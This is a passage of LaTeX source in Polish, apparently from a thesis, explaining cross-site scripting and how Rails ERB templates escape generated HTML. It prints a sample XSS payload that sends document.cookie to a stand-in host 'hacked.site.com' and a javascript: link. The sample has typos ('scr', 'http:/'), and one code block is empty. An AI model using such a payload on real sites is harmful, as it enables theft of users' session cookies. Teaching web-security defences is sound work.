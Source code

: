Przykładowy atak typu XSS:

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
    <script>
      document.write(
        '<img scr="http:/hacked.site.com/' + document.cookie + '">'
      );
    </script>
    <a href='javascript:alert("Hacked")'>Personal Website</a>
  \end{lstlisting}
\end{code}\\

Dzięki wbudowanemu w Railsy systemowi ERB templates\footnote{System za pomocą, którego kod strony html jest generowany dynamicznie \cite{rails4_way}, \cite{ruby_rails}} mamy do czynienia z dynamicznym tworzeniem kodu HTML, co uniemożliwia większość ataków tego typu. Wszelkiego rodzaju odnośniki i dane na stronie zapisywane są przy użyciu specjalnej notacji:

\begin{code}
  
\end{code}\\

która zostaje przekompilowana do kodu HTML przez serwer i wysłana przeglądarce internetowej.

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
    <a href="/events">My events</a>
    <a href="/">Events</a>
  \end{lstlisting}
\end{code}\\

